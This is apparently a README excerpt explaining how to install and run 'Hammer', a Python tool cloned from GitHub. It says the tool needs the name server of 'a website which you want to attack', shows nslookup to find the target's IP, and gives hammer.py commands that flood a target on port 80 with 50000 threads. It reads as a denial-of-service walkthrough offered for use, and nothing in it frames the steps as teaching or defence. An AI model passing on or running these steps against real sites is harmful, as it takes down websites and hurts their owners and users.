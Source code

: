 $ apt update<br>
$ apt upgrade<br>
$ apt install python<br>
$ apt install git<br>
$ apt install dnsutils<br>
$ git clone https://github.com/cyberanand1337x/Hammer/

Hammer need the <b>Name Server</b> of a website which you want to attack...<br>
To get the Name Server...just type<br>
$ <b>nslookup example.com<b><br>
Note the IP Address of that Website<br>

then <br>
$ cd Hammer<br>
$ python3 hammer.py -s 127.0.0.1  -p 80 -t 50000<br>
example:<br>
$ python hammer.py -s 123.45.67.89 -t 50000<br>
